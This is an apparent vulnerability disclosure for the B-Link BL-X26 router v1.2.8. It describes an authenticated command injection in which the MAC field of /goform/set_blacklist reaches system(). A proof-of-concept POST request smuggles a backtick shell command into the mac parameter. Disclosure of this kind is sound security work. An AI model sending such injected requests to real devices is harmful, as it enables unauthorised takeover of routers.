





## Submitter：林淦(Lingan) 罗熙(Luoxi)

## Submitter unit：广州大学 (Guangzhou University)

## **Basic Information**

- **Vendor:** B-Link
- **Vendor Website:** https://www.b-link.net.cn/
- **Affected Device Type:** Router
- **Affected Product:** BL-X26
- **Affected Product Version:** v1.2.8

## 1.Vulnerability Overview

B-Link X26 router V1.2.8 version has a command execution vulnerability. Triggering this vulnerability requires authorization. Once the attacker obtains authorization, he can trigger the vulnerability by sending a malicious HTTP POST request.

## 2.Vulnerability Details

Through IDA analysis, there is also a command execution vulnerability when the value is set_blacklist. It is located in the processing function sub_sub_45F6D4, where the mac address and enable fields are obtained and then passed to the bs_SetMacBlack function.

This function is also encapsulated into the libshare-0.0.26.so library. The value obtained by v11 here is the mac address passed in at the beginning.

Finally, the splicing entered the system function and executed the command

## 3.POC

POST /goform/set_blacklist HTTP/1.1

Host: 192.168.16.1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36 Edg/139.0.0.0

Accept: application/json, text/javascript, */*; q=0.01

X-Requested-With: XMLHttpRequest

Referer: http://192.168.16.1/admin/more.html

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

Cookie: user=admin; platform=0

Connection: keep-alive

Content-Type: application/x-www-form-urlencoded

Content-Length: 43

mac=`ls -al / > /etc_ro/web/4.txt`&enable=1

